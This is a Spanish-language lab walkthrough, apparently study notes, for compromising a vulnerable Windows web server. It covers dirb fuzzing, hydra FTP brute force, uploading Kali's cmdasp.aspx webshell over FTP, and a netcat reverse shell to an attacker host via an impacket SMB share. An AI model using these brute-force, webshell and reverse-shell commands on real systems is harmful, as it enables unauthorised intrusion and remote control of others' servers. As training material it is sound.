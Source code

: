 - Servidor Microsoft LLS -> Servidor que se utiliza en versiones antiguas de Windows Server (2000) para gestionar las licencias de productos de servidor de Microsoft que utilizaban modelos de licencia CAL.
- Webshell -> Permite interactuar con un servidor web de forma remota.


- Tenemos nuestra maquina victima windows, tiene el puerto 80 abierto, vamos a hacer fuzzing web con la herramienta ==dirb==
- dirb:
	- Escanea contenido web.
	- Web fuzzer que realiza ataques basados en diccionario contra servidores web.
```
dirb http://(IP_VICTIMA)
```

![](../Imagenes/Pasted%20image%2020250104191832.png)

- Nos muestra directorios.
- vamos a ver el ==aspnet_client==

![](../Imagenes/Pasted%20image%2020250104191926.png)

- No podemos ver nada.
- Tenemos el puerto 21 (ftp) abierto, vamos a hacer fuerza bruta utilizando 2 diccionarios, 1 para usuario y el otro para contraseña.
```
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-password-1000000.txt ftp://(IP_VICTIMA)
```
- También se puede ocupar el diccionario rockyou.txt en password.

![](../Imagenes/Pasted%20image%2020250104193123.png)

- Encontramos el usuario y el password, ahora podemos entrar por el puerto ftp.
```
ftp (IP_VICTIMA)
```

- Ya estando dentro nos damo cuenta que tenemos un index.html

![](../Imagenes/Pasted%20image%2020250104194059.png)

- A veces el contenido ftp esta vinculado con el puerto 80, es decir el ==index.html== va siendo la pagina apache del puerto 80, al igual que con ==welcome.png== y ==aspnet_client==.
- Entonces, podemos subir archivos y podríamos verlos en el navegador.
- Kali tiene por defecto una cmd maliciosa guardad en el sistema, para encontrarla ocupamos el siguiente comando:
```
find / -name cmdasp.aspx 2>/dev/null
```

![](../Imagenes/Pasted%20image%2020250104194605.png)

- Este archivo lo vamos a mover a Desktop.
	- Para hacerlo usamos el siguiente comando
```
cp (RUTA_DEL_ARCHIVO) . 
```

![](../Imagenes/Pasted%20image%2020250104194751.png)

- Para poder subir el archivo desde el protocolo ftp usamos el comando:
```
put (NOMBRE_ARCHIVO)
```

![](../Imagenes/Pasted%20image%2020250104194948.png)

- Si lo ponemos en la URL nos saldra el archivo:
![[Pasted image 20250104195041.png]]
- Hacemos una web shell.
	- Lo vamos a hacer levantando un recurso compartido.
- Nos vamos a kali, buscamos nc.exe
```
find / -name nc.exe 2>/dev/null
```
![[Pasted image 20250104195337.png]]
- Copiamos el segundo y lo llevamos a Desktop
- Ahora vamos  a levantar un recurso compartido desde la maquina Kali.
- Vamos  a usar la herramienta impacket-smbserver.

==impacket-smbserver==
- Esta herramienta permite crear un servidor SMB temporalmente en una maquina, lo que permite compartir archivos y ejecutar comandos en el contexto del servidor.

```
impacket-smbserver (NOMBRE_RECURSO) $(pwd) -smb2support
```
![[Pasted image 20250104195927.png]]
- Ahora ponemos en escucha.
![[Pasted image 20250104200027.png]]
- Vamos al navegador al cmdasp.aspx donde podemos ejecutar comando y ponemos lo siguiente:
```
\\(IP_ATACANTE)\(NOMBRE_RECURSO)\(ARCHIVO_SUBIR) -e cmd.exe (IP_ATACANTE) (PUERTO)
```
-e --> Le decimos que queremos hacer una reverse shell, una cmd.exe a mi maquina atacante por el puerto especificado.
![[Pasted image 20250104200734.png]]
- Ya estamos dentro.